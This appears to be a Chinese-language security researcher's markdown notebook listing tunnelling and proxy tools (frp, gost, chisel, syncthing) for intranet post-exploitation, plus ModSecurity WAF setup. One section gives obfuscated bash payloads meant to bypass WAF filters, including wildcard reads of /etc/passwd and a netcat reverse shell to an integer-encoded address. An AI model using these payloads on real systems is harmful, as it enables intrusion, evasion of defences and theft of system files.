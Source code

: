 
# 分享2019-01-19
## 1、基于p2p同步文件syncthing
即便再内网，或可通过内网其他可上网机器中继
你是否想到楼后渗透中都某些场景？
```
go get -u -v github.com/syncthing/syncthing.git
~/go/src/github.com/syncthing/syncthing/
./build.sh all
使用学习：
https://www.youtube.com/watch?reload=9&v=iz7j7SQJVxs
启动server
~/go/src/github.com/syncthing/syncthing/bin#syncthing
配置管理：
http://127.0.0.1:8384/
```

# 内网穿透
A fast reverse proxy to help you expose a local server behind a NAT or firewall to the internet
https://github.com/fatedier/frp#p2p-mode
```
go get -v -u github.com/fatedier/frp
cd /root/go/src/github.com/fatedier/frp
make all
cd bin
ln -s `pwd`/frpc /root/go/bin/frpc
ln -s `pwd`/frps /root/go/bin/frps
```
# GO Simple Tunnel - a simple tunnel written in golang
https://github.com/ginuerzh/gost
https://github.com/jpillora/chisel
https://github.com/mmatczuk/go-http-tunnel
```
go get -u -v github.com/ginuerzh/gost
go get -u -v github.com/jpillora/chisel

cd ~/go/src/github.com/ginuerzh/gost
cd cmd

```

# 获取bash的一些字符过滤情况
```
man 7 glob
rm `find . -name "*~"`
 rm -f nosuchfile `find . -name "*~"`
 然后你发现，高级都bypass WAF
 /b??/??t /???/p??s??
 /???/??t /???/??ss??
 cat /e't'c/pa"ss"wd
 /???/[a-b]a?h -c "whoami;id;w;last"
 一个经典都reverse
 /???/n? -e /???/b??h 2130706433 1337

```

# 为什么要研究安防
```
安全拦截、过滤都规则，和绕过都对抗
https://github.com/SpiderLabs/owasp-modsecurity-crs/

```

# 也许不久后，我们也会做安全产品【机会是留给有准备的人】
```
我编译最轻量化的安全nginx
https://github.com/elisiano/docker-nginx-modsecurity/issues/3
https://github.com/SpiderLabs/owasp-modsecurity-crs
docker + alpine + nginx + modsecurity
https://github.com/SpiderLabs/owasp-modsecurity-crs/blob/v3.2/dev/INSTALL
集成：
https://github.com/elisiano/docker-nginx-modsecurity/issues/4
```


# python的一些经典分享
```
https://github.com/sshuttle/sshuttle
sshuttle - (Repo, Docs) Transparent network proxy server that uses SSH to achieve VPN-like results, without requiring root access. (linux, mac)

https://github.com/mitmproxy/mitmproxy
MITMproxy - (Repo, Home) Interactive TLS-capable intercepting HTTP proxy for penetration testers and software developers


https://pypi.org/project/py2p/
```

# p2p tunnel socks5?
p2p CLI工具
```
apt install rtorrent

```

# 远程端口转发【2.646k star】
https://github.com/ginuerzh/gost
```
gost -L=rtcp://:2222/192.168.1.1:22 -F forward+ssh://222.222.33.3:2222
gost -L=rtcp://:2222/192.168.1.1:22 -F forward+socks5://222.222.33.3:2222

将本地TCP端口2222上的数据(通过代理链)转发到192.168.1.1:22上
gost -L=tcp://:2222/192.168.1.1:22
./gost_linux -L=tcp://:8080/192.168.1.1:80

将本地UDP端口5353上的数据(通过代理链)转发到192.168.1.1:53上
gost -L=udp://:5353/192.168.1.1:53?ttl=60

远程端口4443数据转到本机80
gost -L=rtcp://192.168.0.100:4443/127.0.0.1:80

代理模式
服务端:
gost -L=http2://:443
客户端:
gost -L=:8080 -F=http2://server_ip:443

```

# 图片大小调整
```
mogrify -resize 200 md/zfb.png
```